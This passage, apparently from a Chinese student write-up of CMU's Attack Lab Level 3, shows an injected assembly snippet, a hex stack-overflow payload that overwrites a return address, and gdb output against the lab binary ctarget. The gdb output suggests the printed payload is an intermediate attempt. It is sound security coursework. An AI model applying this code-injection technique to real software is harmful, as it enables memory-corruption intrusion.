 ```C++
        fail(3);
    }
    exit(0);
}
```

同时，不像Level 2，这一关将Cookie的字符串地址作为参数传入touch3函数。首先将Cookie转化为ASCII码形式，如下：

```
0x59b997fa >> 35 39 62 39 39 37 66 61 
```

使用Level 2的方式进入touch3，查看hexmatch函数改动的缓冲区数据，将上述ASCII码插入正确的缓冲区即可：

phase3.s：

```
mov $0x59b997fa,%rdi  # rdi = My Cookie = 0x59b997fa

pushq $0x4018fa        # touch3的入口地址

ret
```

phase3.txt：

```
48 c7 c7 fa 
97 b9 59 68 
fa 18 40 00 
c3 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
78 dc 61 55
```

```
./hex2raw < phase3.txt > phase3_input.txt
gdb ctarget
(gdb) break touch3
Breakpoint 1 at 0x4018fa: file visible.c, line 71.
(gdb) run -qi phase3_input.txt
Starting program: /home/minimips/Desktop/CMU实验_2018/Attack lab/target1/ctarget -qi phase3_input.txt
Cookie: 0x59b997fa

Breakpoint 1, touch3 (
    sval=0x59b997fa <error: Cannot access memory at address 0x59b997fa>)
    at visible.c:71
71      visible.c: No such file or directory.
(gdb) disas
Dump of assembler code for function touch3:
=> 0x00000000004018fa <+0>:     push   %rbx
   0x00000000004018fb <+1>:     mov    %rdi,%rbx
   0x00000000004018fe <+4>:     movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
   0x0000000000401908 <+14>:    mov    %rdi,%rsi
   0x000000000040190b <+17>:    mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401911 <+23>:    callq  0x40184c <hexmatch>
   0x0000000000401916 <+28>:    test   %eax,%eax
   0x0000000000401918 <+30>:    je     0x40193d <touch3+67>
   0x000000000040191a <+32>:    mov    %rbx,%rdx
   0x000000000040191d <+35>:    mov    $0x403138,%esi
   0x0000000000401922 <+40>:    mov    $0x1,%edi
   0x0000000000401927 <+45>:    mov    $0x0,%eax
   0x000000000040192c <+50>:    callq  0x400df0 <__printf_chk@plt>
```